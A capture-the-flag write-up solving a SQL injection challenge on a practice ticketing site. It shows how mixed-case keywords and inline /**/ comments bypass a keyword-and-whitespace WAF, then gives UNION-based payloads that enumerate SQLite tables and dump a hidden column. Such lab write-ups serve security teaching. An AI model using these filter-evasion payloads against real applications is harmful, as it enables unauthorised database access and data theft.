







# CTF Writeup — SQL Injection with WAF Bypass (StagePass)

## Description

StagePass is a concert ticketing platform where users can look up reservations by booking number. The site implements a WAF (Web Application Firewall) to block common SQL injection attempts — but the filtering logic can be bypassed with simple obfuscation techniques.

## Vulnerability

The booking number field is vulnerable to SQL injection. The WAF blocks:
- Whitespace characters
- SQL keywords: `OR`, `AND`, `UNION`, `SELECT`, `WHERE`, `FROM`, and others

> Note: using `;` to separate statements does NOT work - the firewall blocks the attempt.

However, the filter is **case-sensitive** and does NOT account for **inline SQL comments** (`/**/`), making it bypassable !!!

## WAF Bypass Techniques

Two bypass techniques are combined throughout the exploitation:

- **Spaces** → replaced with `/**/` (inline comments, ignored by SQLite but correctly bypass the whitespace filter)
- **Blocked keywords** → written in **mixed case** (e.g. `Or`, `UniOn`, `SeLeCT`, `FrOm`, `WheRe`, `aNd`) to evade the case-sensitive keyword filter

> Note: splitting keywords with `/**/` (e.g. `O/**/R`) does NOT work — SQLite fails and shows an error.

> Conclusion: Mixed case (e.g. `SeLeCT`) is the correct approach.

## Exploitation

### Step 1 — Probe the input field

Submitting a single quote `'` returns a raw SQLite error, confirming unsanitized input reaches the database. Testing also reveals that the booking number can be wrapped in single quotes — submitting `'1001'` returns the correct reservation.


### Step 2 — Bypass the WAF with a basic OR injection

Building the first working payload using `/**/` for spaces and mixed case for `OR`:

```
'1001'/**/Or/**/1=1
```

This returns all the reservations, confirming the WAF bypass works.



### Step 3 — Find the number of columns

Using UNION-based injection, columns are enumerated incrementally. With 8 columns the query fails:

```
'1001'/**/UniOn/**/SeLeCT/**/1,2,3,4,5,6,7,8
```



Conversely, with **12 columns** it succeeds:

```
'1001'/**/UniOn/**/SeLeCT/**/1,2,3,4,5,6,7,8,9,10,11,12
```



### Step 4 — Enumerate tables

```
'1001'/**/UniOn/**/SeLeCT/**/1,2,3,4,5,6,7,8,9,10,11,name/**/FrOm/**/sqlite_master/**/WheRe/**/type='table'
```

The last visible column displays all table names. The `vip_guestlist` table is the target.



### Step 5 — Inspect the target table

```
'1001'/**/UniOn/**/SeLeCT/**/1,2,3,4,5,6,7,8,9,10,11,sql/**/FrOm/**/sqlite_master/**/WheRe/**/type='table'/**/aNd/**/name='vip_guestlist'
```

The `CREATE TABLE` statement is returned, revealing the columns: `id`, `event_id`, `guest_name`, `access_note`.



### Step 6 — Identify the flag row

```
'1001'/**/UniOn/**/SeLeCT/**/1,2,3,4,5,6,7,8,9,10,11,guest_name/**/FrOm/**/vip_guestlist
```

With this query, it stands out that the column `guest_name` contains the value `VIP Access Key`. This means that the record with `guest_name = VIP Access Key` most likely contains the flag. The most appropriate column seems to be `access_note`.



### Step 7 — Dump the flag

```
'1001'/**/UniOn/**/SeLeCT/**/1,2,3,4,5,6,7,access_note,9,10,11,guest_name/**/FrOm/**/vip_guestlist
```

The `access_note` column of that row contains the flag.

